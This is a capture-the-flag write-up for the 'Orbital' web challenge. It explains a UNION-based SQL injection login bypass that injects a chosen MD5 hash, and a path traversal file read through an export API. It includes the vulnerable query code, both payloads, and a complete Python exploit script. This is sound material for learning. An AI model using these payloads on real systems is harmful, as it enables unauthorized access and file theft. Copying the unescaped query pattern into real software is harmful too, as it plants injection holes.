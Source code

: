 # Orbital :: Easy
## Scenario 

```
 Orbital
 In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?
```

## Solve
### Auth bypass

![](/images/orbital-source-tree.png)

This challenge builds on the basics of SQL Injection explored in the `Drobots` challenge.  
It is another case of login bypass, with a much more interesting payload.  

The login logic for the application is the following:  

```python
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```

In a query like this, you could use UNION to include a handcrafted row.  
This way you can provide a username and the hashed password of your choice.  

The application will internally use these values when comparing the provided password with the hashed one.

```python
user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)
```

We can see that the application uses the `md5` algorithm to hash the passwords before storage.  
This is in the `util.py:passwordVerify` function.  

```python
def passwordVerify(hashPassword, password):
    md5Hash = hashlib.md5(password.encode())

    if md5Hash.hexdigest() == hashPassword: return True
    else: return False
```

This means that we have to provide the password hashed with `md5` in our payload.  

Payload:  

```
owned" UNION SELECT "admin","21232f297a57a5a743894a0e4a801fc3" FROM users;#
```

`admin`: is the target user.  
`21232f297a57a5a743894a0e4a801fc3`: is the md5 hash of "admin".  

When logging in we provide the injection in the username input and the password 'admin' in the password input.  
  
Here is the resulting query executing on the database:  

```sql
SELECT username, password FROM users WHERE username = "owned" UNION SELECT "admin", "21232f297a57a5a743894a0e4a801fc3" FROM users;#"
```

When executing, the database will not return results for the `owned` username, which means it will use our specified row.  

![](/images/orbital_login.png)

We are then logged into a dashboard:  

![](/images/orbital_dashboard.png)

### LFI in export function

In this dashboard, there is an export function for various communications.  

![](/images/orbital_export.png)

The application has an export api that relatively includes an mp3 file.  
This file is then downloaded.  

By using path traversal, we can traverse the filesystem back to the root directory to include our target `signal_sleuth_firmware`.  

![](/images/orbital_export_request.png)

With the following payload:  

```json
{
    "name":"../../../../../../../../../../../signal_sleuth_firmware"
}
```

Once we obtain this file, it contains the flag !  

## Script
```python
#!/usr/bin/env python3
import requests

TARGET = "http://10.18.232.1:1337"
LOGIN_ENDPOINT = "/api/login"
EXPORT_ENDPOINT = "/api/export"
PAYLOAD = "owned\" UNION SELECT \"admin\",\"21232f297a57a5a743894a0e4a801fc3\" FROM users;#"
FLAG_LFI_PAYLOAD = {"name": "../../../../../../../../../../../signal_sleuth_firmware"}

if __name__ == "__main__":
    print("[*] BYPASSING LOGIN")
    s = requests.Session()
    s.post(TARGET + LOGIN_ENDPOINT,
                  json={"username": PAYLOAD, "password": "admin"})

    print("[*] Using Path Traversal + LFI to include flag")
    flag = s.post(TARGET + EXPORT_ENDPOINT, json=FLAG_LFI_PAYLOAD)
    print(flag.text)
```


